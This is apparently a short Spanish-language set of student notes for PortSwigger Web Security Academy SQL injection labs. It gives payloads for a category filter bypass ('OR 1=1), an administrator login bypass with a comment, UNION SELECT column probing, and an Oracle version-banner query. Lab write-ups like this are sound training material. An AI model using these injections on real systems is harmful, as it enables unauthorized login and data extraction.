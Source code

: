 > Laboratorio 1

```html
https://ac241f1c1e1c928a80cc0b910061008d.web-security-academy.net/filter?category=gifts'+OR+1=1-
```

![1](DEVOPS/DEV-OPS/mis_assets/img/SQL inyection/1.png)



|Laboratorio 2

Añadimos en el campo usuario = Administrator’--

Añadimos en el campo contraseña = ‘’



![2](DEV-OPS/mis_assets/img/SQL inyection/2.png)



| Laboratorio 3



Añadimos a partir de la categoría el siguiente código:

UNION SELECT NULL,NULL, NULL-



![3](DEV-OPS/mis_assets/img/SQL inyection/3.png)



| Laboratorio 4



+UNION+SELECT+BANNER,+NULL+FROM+v$version--

![(/home/usuari2/Escriptori/DEVOPS/DEV-OPS/mis_assets/img/SQL inyection/4.png)



![5](DEV-OPS/mis_assets/img/SQL inyection/5.png)
